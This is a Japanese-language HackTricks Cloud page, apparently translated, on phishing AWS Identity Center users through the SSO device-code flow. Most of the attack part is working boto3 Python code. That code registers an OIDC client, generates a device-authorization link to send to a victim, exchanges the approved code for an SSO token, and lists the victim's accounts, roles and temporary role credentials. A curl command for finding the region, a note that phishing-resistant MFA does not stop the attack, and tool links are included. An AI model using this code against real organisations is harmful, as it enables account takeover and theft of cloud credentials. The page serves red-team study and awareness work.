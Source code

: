 # AWS - Identity Center & SSO Unauthenticated Enum

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
- **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## AWSデバイスコードフィッシング

最初に[**このブログ投稿**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)で提案されたように、AWS SSOを使用して**ユーザーにリンクを送信**することで、**ユーザーが承認する**と、攻撃者は**ユーザーをなりすましてアクセス**し、**Identity Center**でユーザーがアクセスできるすべてのロールにアクセスできるトークンを取得できます。

この攻撃を実行するために必要なものは次のとおりです：

- 犠牲者は**Identity Center**を使用する必要があります
- 攻撃者は、被害者が使用している**サブドメイン** `<victimsub>.awsapps.com/start` を知っている必要があります

前述の情報だけで、**攻撃者はユーザーにリンクを送信**することができ、**承認されると**、**攻撃者はAWSユーザーアカウントにアクセス**できます。

### 攻撃

1. **サブドメインを見つける**

攻撃者の最初のステップは、被害者企業がIdentity Centerで使用しているサブドメインを見つけることです。これは、**OSINT**または**推測+BF**を使用して行うことができます。ほとんどの企業はここで自社名またはそのバリエーションを使用しているためです。

この情報を使用すると、Indentity Centerが構成された地域を取得できます：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **被害者向けのリンクを生成して送信する**

以下のコードを実行して、被害者が認証できるAWS SSOログインリンクを生成します。\
デモ用に、このコードをPythonコンソールで実行し、後でトークンを取得するためにいくつかのオブジェクトが必要になるため、コンソールを終了しないでください：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **被害者がそれを受け入れるのを待つ**

被害者が**すでにAWSにログインしている**場合、権限を付与することを受け入れるだけで済みます。ログインしていない場合は、**ログインしてから権限を付与する必要があります**。\
これが現在のプロンプトの見た目です：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSOアクセストークンを取得する**

被害者がプロンプトを受け入れた場合、次のコードを実行して**ユーザーをなりすましてSSOトークンを生成**します：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSOアクセストークンは**8時間有効**です。

5. **ユーザーをなりすます**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

前の攻撃が「unphisable MFA」（webAuth）を使用していても機能することを知るのは楽しいです。これは、前の**ワークフローが使用されたOAuthドメインを離れることがない**ためです。他のフィッシング攻撃とは異なり、ユーザーがログインドメインを置き換える必要がある場合には、デバイスコードワークフローが準備されているため、**コードがデバイスによって知られており、ユーザーは異なるマシンでもログインできます**。プロンプトが受け入れられると、デバイスは**最初のコードを知っているだけで**ユーザーの**資格情報を取得**できるようになります。

これについての詳細は[**この投稿をチェックしてください**](https://mjg59.dreamwidth.org/62175.html)。

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちらをチェック！</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、**あなたのハッキングトリックを共有**してください。

</details>
